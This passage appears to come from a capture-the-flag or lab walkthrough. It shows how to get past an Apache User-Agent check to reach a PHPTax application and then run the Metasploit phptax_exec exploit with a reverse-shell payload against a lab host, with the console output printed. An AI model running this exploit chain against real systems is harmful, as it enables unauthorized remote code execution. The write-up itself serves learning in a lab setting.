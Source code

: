 ```bash
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
 </Directory >



 </VirtualHost >
 ...
```
Here there is some checking going on for the server on port 8080. If the User-Agent contains Mozilla/4.0 (emulating Internet Explorer), the permissions for the server are relaxed. This is as simple as changing one character in the User-Agent for requests. Once done, access is given for the port 8080 web server, which reveals another web application, PHPTax. Though I can't find a version number, the source code indicates the application was made in 2003.

### 3. Get a shell
There are proof of concepts for RCE using PHPTax, including a Metasploit module that can be used to test it.
```bash
msf5 exploit(multi/http/phptax_exec) > options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.34.150   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.34.142   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf5 exploit(multi/http/phptax_exec) > run

[*] Started reverse TCP double handler on 192.168.34.142:4444 
[*] 192.168.34.1508080 - Sending request...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo JxDzX3LT5EKRcyLN;
[*] Writing to socket A
[*] Writing to socket B
```